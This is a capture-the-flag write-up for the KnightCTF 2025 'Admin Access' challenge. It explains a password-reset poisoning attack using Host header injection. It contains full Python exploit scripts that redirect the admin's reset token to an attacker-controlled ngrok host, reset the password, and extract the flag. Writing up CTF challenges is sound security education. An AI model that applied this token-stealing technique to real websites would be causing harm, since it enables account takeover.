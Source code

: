 
# Admin Access

<!--more-->
### Initial Analysis

The site appeared as follows, with a login screen:

![Site Presentation](/images/KnightCTF-2025/Admin-Access/site_presentation.png "Site Presentation")

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![Admin Email](/images/KnightCTF-2025/Admin-Access/admin_email.png "Admin Email")

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![Forgot Password](/images/KnightCTF-2025/Admin-Access/forgot_password.png "Forgot Password")

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:
{{< typeit code=bash >}}
ngrok http 80
{{< /typeit >}}
And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![Intercept](/images/KnightCTF-2025/Admin-Access/intercept.png "Intercept")

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![Manual Flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png "Manual Flag")

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
# (set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
{{< /typeit >}}
{{< /admonition >}}
